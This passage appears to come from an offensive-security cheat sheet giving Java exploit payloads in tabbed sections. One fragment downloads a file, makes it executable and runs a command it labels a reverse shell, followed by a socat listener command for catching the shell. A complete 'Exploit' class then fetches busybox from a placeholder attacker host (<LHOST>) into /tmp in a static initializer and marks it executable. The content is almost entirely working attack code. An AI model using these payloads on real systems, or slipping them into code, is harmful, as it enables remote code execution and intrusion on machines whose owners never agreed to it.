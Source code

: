 ```java
    try {
      InputStream in = new URL(URL).openStream();
      Files.copy(in, Paths.get(FILE_PATH), StandardCopyOption.REPLACE_EXISTING);

      File file = new File(FILE_PATH);

      if(file.exists()){
        file.setReadable(true);
        file.setExecutable(true);
        file.setWritable(false);
      }
      // Execute a command that gives us a reverse shell (optional):
      // Process p = Runtime.getRuntime().exec(new String[]{"sh", "-c", CMD}); // Other way.
      Runtime r = Runtime.getRuntime();
      Process p = r.exec(CMD);
      p.waitFor();
    } catch (Exception e){
    }
  }
}
```

Don't forget to contact **socat** as follows:

```bash
socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
```
{% endtab %}

{% tab title="#4" %}
Upload a file (Example with busybox):

```java
import java.io.InputStream;
import java.io.File;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.nio.file.StandardCopyOption;
import java.net.URL;

public class Exploit {
  static{
    String URL = "http://<LHOST>/busybox";
    String FILE_PATH = "/tmp/busybox"; // <DIR_PATH>/<FILENAME>
    try {
      InputStream in = new URL(URL).openStream();
      Files.copy(in, Paths.get(FILE_PATH), StandardCopyOption.REPLACE_EXISTING);

      File file = new File(FILE_PATH);
      if(file.exists()){
        file.setReadable(true);
        file.setExecutable(true);
        file.setWritable(false);
      }
    } catch (Exception e){
    }
  }
}
```
{% endtab %}
{% endtabs %}
